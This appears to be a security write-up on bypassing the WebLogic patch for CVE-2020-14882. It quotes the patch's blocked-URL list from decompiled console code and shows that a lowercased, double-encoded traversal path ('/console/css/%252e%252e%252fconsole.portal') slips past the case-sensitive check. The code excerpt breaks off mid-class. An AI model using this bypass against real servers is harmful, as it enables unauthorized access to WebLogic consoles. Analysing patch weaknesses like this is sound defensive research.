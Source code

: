 # CVE-2020–14882 Weblogic Unauthorized bypass RCE

## bypass patch with CVE-2020–14882

`private static final String[] IllegalUrl = new String[]{";", "%252E%252E", "%2E%2E", "..", "%3C", "%3E", "<", ">"};`


#### list

```
%252E%252E
%2E%2E
..
%3E
%3C
;
<
>
```

#### lower

```
>>> "%252E%252E%252F".lower()
'%252e%252e%252f'
```
`%252E%252E%252F` to `%252e%252e%252f`

`/console/css/%252e%252e%252fconsole.portal`


```
╰─$ grep -rn 'IllegalUrl' *
console.jar/com/bea/console/utils/MBeanUtilsInitSingleFileServlet.java:19:   private static final String[] IllegalUrl = new String[]{";", "%252E%252E", "%2E%2E", "..", "%3C", "%3E", "<", ">"};
console.jar/com/bea/console/utils/MBeanUtilsInitSingleFileServlet.java:40:         for(int i = 0; i < IllegalUrl.length; ++i) {
console.jar/com/bea/console/utils/MBeanUtilsInitSingleFileServlet.java:41:            if (url.contains(IllegalUrl[i])) {
```

```
package com.bea.console.utils;

import com.bea.netuix.servlets.manager.SingleFileServlet;
import java.io.IOException;
import javax.servlet.ServletConfig;
import javax.servlet.ServletException;
import javax.servlet.ServletRequest;
import javax.servlet.ServletResponse;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import org.apache.commons.logging.Log;
import org.apache.commons.logging.LogFactory;

public class MBeanUtilsInitSingleFileServlet extends SingleFileServlet {
   private static final Log LOG = LogFactory.getLog(MBeanUtilsInitSingleFileServlet.class);
   private static final String WL_DISPATCH_POLICY = "wl-dispatch-policy";
   private static boolean hasInited = false;
   private static final long serialVersionUID = 1L;
   private static final String[] IllegalUrl = new String[]{";", "%252E%252E", "%2E%2E", "..", "%3C", "%3E", "<", ">"};

   public static void initMBean() {
      MBeanUtilsInitializer.initMBeanAsynchronously();
```